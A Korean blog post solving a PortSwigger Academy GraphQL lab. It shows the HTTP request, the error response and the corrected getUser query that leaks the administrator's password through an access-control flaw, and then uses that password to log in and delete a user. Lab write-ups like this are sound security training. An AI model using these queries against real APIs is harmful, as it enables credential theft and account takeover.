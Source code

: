 ```yaml
---
layout: post
title: "Burp Academy-GraphQL API 관련 취약점: Accidental exposure of private GraphQL fields"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, GraphQL]
toc: true
last_modified_at: 2023-11-08 09:50:00 +0900
---
```



# 개요
- GraphQL 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure
- 취약점 설명페이지: https://portswigger.net/web-security/graphql
- 난이도: PRACTITIONER (보통)

# 문제 개요

- 이 랩에 있는 유저 관리 기능에는 GraphQL 엔드포인트가 있다. 
- 접근 제어 부분에 취약점이 있어 이를 이용하면 유저 크레덴셜을 볼 수 있다. 
- 관리자로 로그인해서 carlos유저를 삭제하면 문제가 풀린다. 

```
The user management functions for this lab are powered by a GraphQL endpoint. The lab contains an access control vulnerability whereby you can induce the API to reveal user credential fields.

To solve the lab, sign in as the administrator and delete the username carlos.

We recommend that you install the InQL extension before attempting this lab. InQL makes it easier to modify GraphQL queries in Repeater, and enables you to scan the API schema.

For more information on using InQL, see Working with GraphQL in Burp Suite.
```

# 풀이
## GraphQL 엔드포인트 찾기 
일단 GraphQL 엔드포인트를 찾는게 가장 먼저다. 앱을 만져보면 로그인시나 블로그 글 조회시 등에 `/graphql/v1` 엔드포인트로 요청을 하는 것을 볼 수 있다. 

## InQL실행
이 엔드포인트에 대해 InQL 스캔을 실시한다. 그러면 다음과 같이 스키마 정보를 획득한 것을 볼 수 있다. getUser 쿼리가 눈에 띈다. 

![InSQL스캔 실행](/images/burp-academy-graphql-2-1.png)

## getUSer 쿼리 실행
GraphQL요청을 Repeater로 보내서 쿼리를 getUser 쿼리로 바꿔본다. 

```http
POST /graphql/v1 HTTP/2
Host: 0a41003c0490e986831b6fdb00e30015.web-security-academy.net
Cookie: session=sh8ARKJJ07INxlLKcivIfnf3wVPBFAhU; session=sh8ARKJJ07INxlLKcivIfnf3wVPBFAhU
Content-Length: 127
Sec-Ch-Ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://0a41003c0490e986831b6fdb00e30015.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a41003c0490e986831b6fdb00e30015.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

{"variables": {"id": 1}, "query": "query {\n    getUser(id: Int!) {\n        id\n        password\n        username\n    }\n}"}
```

그러자 다음과 같은 응답이 돌아왔다. 뭔가 문법이 잘못되었다는 것 같다. 

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 206

{
  "errors": [
    {
      "locations": [
        {
          "line": 2,
          "column": 20
        }
      ],
      "message": "Invalid syntax with offending token '!' at line 2 column 20"
    }
  ]
}
```

![문법 에러](/images/burp-academy-graphql-2-2.png)


## 에러 원인 파악 및 수정 
비슷하게 생긴 getBlogPost쿼리를 살펴본다. 

InQL 스캔결과에서 획득한 쿼리와 실제로 앱 사용중에 전송되는 쿼리가 생긴게 조금 다르다는 것으 알 수 있다. 

앱 사용시에 관측한 쿼리는 다음과 같다. 

```
query getBlogPost($id: Int!) {
    getBlogPost(id: $id) {
        image
        title
        author
        date
        paragraphs
    }
}
```

InQL 결과에서는 이렇게 생겼다. 

```
query {
    getBlogPost(id: Int!) {
        author
        date # Timestamp scalar
        id
        image
        paragraphs
        summary
        title
    }
}
```

다음이 다르다. 

1. 실제 동작하는 쿼리는 query 다음에 `getBlogPost($id: Int!)` 를 붙여주는 부분이 있다. 
2. 실제 동작하는 쿼리는 `getBlogPost(id: Int!)` 대신에 `getBlogPost(id: $id)` 가 들어가 있다. 

동일한 요령을 getUser쿼리에 적용하면 다음과 같이 된다. 

다음 쿼리가

```
query {
    getUser(id: Int!) {
        id
        password
        username
    }
}
```

다음과 같이 바뀐다. 

```
query getUser($id: Int!){
    getUser(id: $id) {
        id
        password
        username
    }
}
```

## getUser 쿼리 재실행 
`{"id" 1}` 을 변수로 해서 보내본다. 그러면 다음과 같이 관리자의 크레덴셜을 획득할 수 있다. 

![관리자 크레덴셜 획득](/images/burp-academy-graphql-2-3.png)

## 관리자로 로그인해서 calor유저 삭제
관리자 username과 패스워드로 로그인한 후에 관리자 패널에서 carlos유저를 삭제하면 다음과 같이 문제가 풀렸다는 메세지가 출력된다. 

![관리자 로그인](/images/burp-academy-graphql-2-success.png)